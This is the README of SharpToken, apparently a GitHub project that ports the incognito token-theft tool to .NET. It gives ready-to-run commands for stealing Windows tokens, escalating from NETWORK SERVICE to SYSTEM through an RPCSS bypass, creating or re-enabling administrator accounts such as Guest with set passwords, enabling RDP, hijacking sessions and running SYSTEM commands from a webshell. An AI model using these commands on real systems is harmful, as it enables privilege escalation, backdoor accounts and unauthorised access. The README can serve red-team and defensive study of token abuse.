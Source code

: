 # SharpToken


NET version of incognito

![image](https://user-images.githubusercontent.com/43266206/188081018-8717b066-1143-48b8-b62b-31360316cce1.png)


## Usage

```
SharpToken By BeichenDream
=========================================================

Github : https://github.com/BeichenDream/SharpToken

If you are an NT AUTHORITY\NETWORK SERVICE user then you just need to add the bypass parameter to become an NT AUTHORIT\YSYSTEM
e.g.
SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami" bypass


Usage:

SharpToken COMMAND arguments



COMMANDS:

        list_token [process pid]        [bypass]

        list_all_token [process pid] [bypass]

        add_user    <username> <password> [group] [domain] [bypass]

        enableUser <username> <NewPassword> [NewGroup] [bypass]

        delete_user <username> [domain] [bypass]

        execute <tokenUser> <commandLine> [Interactive] [bypass]

        enableRDP [bypass]

        tscon <targetSessionId> [sourceSessionId] [bypass]


example:
    SharpToken list_token
    SharpToken list_token bypass
    SharpToken list_token 6543
    SharpToken add_user admin Abcd1234! Administrators
    SharpToken enableUser Guest Abcd1234! Administrators
    SharpToken delete_user admin
    SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami"
    SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami" bypass
    SharpToken execute "NT AUTHORITY\SYSTEM" cmd true
    SharpToken execute "NT AUTHORITY\SYSTEM" cmd true bypass
    SharpToken tscon 1




```

## Elevated Permissions

In addition to the usual Token stealing privilege enhancement, SharpToken also supports obtaining Tokens with integrity through Bypass

If you are an NT AUTHORITY/NETWORK SERVICE user and you add the bypass parameter, SharpToken will steal System from RPCSS, that is, unconditional NT AUTHORITY\NETWORK SERVICE to NT AUTHORITY\SYSTEM 

![image](https://user-images.githubusercontent.com/43266206/205461409-0b17af46-00f5-4d68-9a16-a2edd76e67ab.png)


## ListToken

Enumerated information includes SID, LogonDomain, UserName, Session, LogonType, TokenType, TokenHandle (handle of Token after Duplicate), TargetProcessId (process from which Token originates), TargetProcessToken (handle of Token in source process), Groups (group in which Token user is located)

```
SharpToken list_token
```

![image](https://user-images.githubusercontent.com/43266206/176751244-dd8f8899-59ec-48e5-9bee-464c0e146573.png)

## Enumerate Tokens from the specified process

```
SharpToken list_token 468
```

![image](https://user-images.githubusercontent.com/43266206/176753494-3c6df1cb-5d14-4b36-aa61-ca68a8c38009.png)



## Get an interactive shell

```
execute "NT AUTHORITY\SYSTEM" cmd true
```

![image](https://user-images.githubusercontent.com/43266206/176751714-c7edb21c-f0be-4794-a14f-be4a7b1fdf61.png)

## Get command execution results (executed under webshell)

```
SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami"
```

![image](https://user-images.githubusercontent.com/43266206/176751980-dd9413f4-1a4d-4cb0-8ba2-5e0b9ccb2eed.png)

## Reference

https://www.tiraniddo.dev/2020/04/sharing-logon-session-little-too-much.html

https://github.com/decoder-it/NetworkServiceExploit

https://github.com/FSecureLABS/incognito

https://github.com/chroblert/JCTokenUtil
